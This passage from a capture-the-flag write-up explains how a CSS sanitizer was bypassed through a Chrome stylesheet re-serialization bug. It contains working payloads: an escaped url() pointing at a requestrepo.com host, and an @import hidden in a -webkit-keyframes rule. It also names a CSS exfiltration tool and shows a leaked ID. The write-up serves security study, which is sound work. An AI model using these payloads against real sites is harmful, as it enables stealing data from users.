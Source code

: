 ```
T		t|\\0{0,4}(54|74)(\r\n|[ \t\r\n\f])?|\\t
U               u|\\0{0,4}(55|75)(\r\n|[ \t\r\n\f])?|\\u
X		x|\\0{0,4}(58|78)(\r\n|[ \t\r\n\f])?|\\x
Z		z|\\0{0,4}(5a|7a)(\r\n|[ \t\r\n\f])?|\\z

@{I}{M}{P}{O}{R}{T}	{return IMPORT_SYM;}
```

But 
```js
const sheet = new CSSStyleSheet();
sheet.replaceSync(stylesheetText);

const safeCss = Array.from(sheet.cssRules)
    .map((r) => r.cssText)
    .join("\n");
```
would normalize the css text and we would fail the second regex. 

**Finding a Chrome 0-day:** Well, kinda. Since there was a [PR merged](https://chromium-review.googlesource.com/c/chromium/src/+/5604769) before the CTF, but we didn't find this during the competition. Thing is, there is (was?) a re-serialization issue in CSSStyleSheet, where the result producted by cssText would not result in the original css.

The first weird behavior we found was with variables:

```html
<style>
* {
  --xd: \75rl("https://23ur5ebo.requestrepo.com/css");
}
p { color: red; background: var(--xd); }
</style>
<p>hello world</p>
```

This allowed us to bypass the url( restriction, so we knew we were getting close. All we needed was an @import and we would've been good :). We figured that it was behaving weird when things started with `-`, so why not use a @ directive that starts with -? And that's what we did:

```html
<style>
  @-webkit-keyframes \0a\3b\0a\@\\0069mport\20\22\2fzer0rocketwrecks\22\3b\/\*  { 

}
</style>
```

With this we could import any URL we wanted :). From there it was only a matter of setting up [sic by d0nutptr](https://github.com/d0nutptr/sic) (and changing Content-Type to be text/css). And on the first run locally we exfiltrated the ID:

```
[id: 2729015883] - 000199b6587eeb583ea6e3e404da9343d55078660000000088165028e2e91888d1c359311bc19a7b67cb0dc539debd3c251ceb42e8d9965b
```
